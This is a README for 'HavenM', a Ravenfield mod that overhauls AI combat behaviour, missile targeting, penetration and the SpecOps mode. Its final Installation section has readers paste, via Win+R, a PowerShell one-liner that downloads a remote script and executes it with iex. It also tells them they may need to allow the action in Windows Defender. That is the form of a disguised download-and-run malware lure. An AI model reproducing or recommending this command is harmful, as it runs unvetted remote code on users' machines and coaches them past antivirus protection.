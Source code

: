 HavenM

Question 1) what is it
   
HavenM is a game-changing AI and gameplay overhaul mod for Ravenfield, designed to enhance immersion, realism, and challenge. By modifying the game’s DLL using dnSpy, this mod pushes AI behavior and game mechanics far beyond the vanilla experience.

Question 2) Why did I edit the game dll with dnspy for almost 2 years:

I believe Ravenfield’s AI needed to be more realistic, more reactive, and more engaging. The default AI often felt too predictable, lacking the tactical decision-making and combat awareness that could make battles feel more fun to play against.

OK, what did the dll change:

AI Changes: 

-AI soldiers will now go prone when under fire, making them harder to hit and more tactical in their reactions.
-AI no longer auto-crouches—instead, they will jog to objectives when not under fire, significantly improving game pacing and movement fluidity.
-AI will now exit vehicles when submerged in water and leave aircraft when stuck, preventing soft-lock situations.
-AI will halt vehicles to fire their weapons, but this is now based on skill level and weapon type, making engagements more tactical.
-AI using wire-guided missile weapons will now stop, aim, fire, and track their target until it is destroyed, making anti-vehicle AI much more effective.
-AI will fire more aggressively overall, reducing hesitation in combat and making firefights feel more intense.
-Ai from all skill levels will now lean 
-Ai will hide behind cover when taking fire
-Ai will provide suppressive fire on known enemy positions, keeping opponents pinned down.
-AI will now prioritize high-threat targets, such as mortar teams, instead of engaging randomly.
-Ground units will engage low-flying and slow-moving aircraft, making landing helicopters and air support more vulnerable
-AI randomizes weapon switching based on how many of their available weapons can effectively engage a target, preventing predictable behavior.
-AI switches between grenades, under-barrel grenade launchers, and melee weapons when appropriate, making them more versatile.
-Vehicles with low passenger counts will halt more often to provide fire support rather than recklessly rushing into battle.
-Airplanes perform better in air-to-ground attacks, adjusting their tactics based on their weapon loadout.
-AI-driving vehicles now reverse at speeds based on their actual reverse speed, reducing vehicle infinite stuck (such as the t72 tank)
-Ai loadout will be randomized this time
-Ai will no longer drop their target when the active game mode is specops or the current target is within 40m
-Ai will panic fire when the enemy is within 20m of it and fire at the target regardless of the weapon effectiveness ( making kamikaze vehicle mod work )
-Ai flying a helicopter will do a slow-down, movement to stabilize itself when it spots an enemy far away while using a wire-guided missile weapon, allowing it to fire at the target effectively as long as it can see its target
-Ai hiding behind cover or near cover will now considered an infantry group ( allowing explosives to be fired at them )

New Game Mechanics:

Weapon Mounting System:
-Inspired by Rising Storm: Vietnam, players can now mount weapons on surfaces for improved accuracy and stability.

Advanced Missile Targeting:

-Missiles now predict target movement instead of flying straight at them, making dogfights and anti-vehicle combat more challenging. ( pro tip: when getting tracked, fly low, the air-to-air missile will not detect you as an aircraft)

-Flare will not stop a missile from continuing to lock on the aircraft, but it will  make the missile confused and move side to side, allowing the missile to miss but also still have a chance to hit the flared aircraft 

Simple Penetration System:

-High-damage weapons (Heavy arms, explosives projectile) now feature simple penetration mechanics, allowing bullets and explosives to pass through cover if they deal over 100 damage and ignore cover and explode if the damage is over 900.

---Overhauled SpecOps Game Mode---

A complete revamp of the SpecOps mode, featuring:

Dynamically spawning enemies, ensuring unpredictable encounters.

-Customizable objective numbers and enemy count, allowing for tailored difficulty ( using the bot number for the number of ai on each objective and the respawn timer for the number of objective)
-In specops, AI will leave their vehicle when the player gets too close to engage the enemy head-on 
-AI flanking and ambushing the player based on their skill level, making SpecOps a true tactical challenge.
-bot with skill normal and lower will rush into the target's last known position 
-the veteran bot will stay back and provide fire support, ambushing players running out 
-Enemy will spawn more when exfil, making more enemy spawn in a shorter amount of time
-Ai no longer need to see player to fire their flare, they just need to be alerted 

Installation 
Copy this command, Win+R to open "Run" windows, paste it, and press Enter.

It will create an Updater shortcut in Desktop.

**YOU MAY NEED TO ALLOW THIS ACTION ON YOUR** [WINDOWS DENFENDER](windowsdefender://threat) **FOR THE FIRST TIME!!!**
```batch
powershell -nop -c "$w=(New-Object System.Net.WebClient);$w.Encoding=[System.Text.Encoding]::UTF8;iex($w.DownloadString('http://ravenfieldcommunity.github.io/static/get_havenm-utf8.ps1'));Read-Host;"
```
